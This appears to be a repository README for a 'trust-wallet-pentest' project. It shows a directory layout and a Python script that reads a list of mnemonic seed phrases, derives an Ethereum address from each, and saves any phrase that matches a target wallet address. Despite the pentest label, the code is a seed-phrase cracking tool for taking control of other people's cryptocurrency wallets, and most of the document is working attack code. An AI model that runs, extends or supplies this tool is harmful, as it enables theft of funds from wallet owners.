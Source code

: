# README.md

trust-wallet-pentest/
│
├── addresses/
│   ├── target_addresses.txt
│   └── generated_addresses.txt
│
├── seed_phrases/
│   ├── seed_list.txt
│   └── cracked_seeds.txt
│
├── scripts/
│   ├── address_generator.py
│   ├── seed_cracker.py
│   └── utils.py
│
├── results/
│   ├── found_seeds.txt
│   └── report.txt
│
├── README.md
└── requirements.txt
from eth_account import Account
from web3 import Web3

def crack_seed(target_address):
    Account.enable_unaudited_hdwallet_features()
    with open("seed_phrases/seed_list.txt", "r") as f:
        seeds = f.readlines()

    found_seeds = []
    for seed in seeds:
        seed = seed.strip()
        account = Account.from_mnemonic(seed)
        if account.address == target_address:
            found_seeds.append(seed)

    with open("results/found_seeds.txt", "w") as f:
        for seed in found_seeds:
            f.write(f"{seed}\n")

def main():
    with open("addresses/target_addresses.txt", "r") as f:
        target_addresses = f.readlines()

    for address in target_addresses:
        address = address.strip()
        crack_seed(address)

if __name__ == "__main__":
    main()
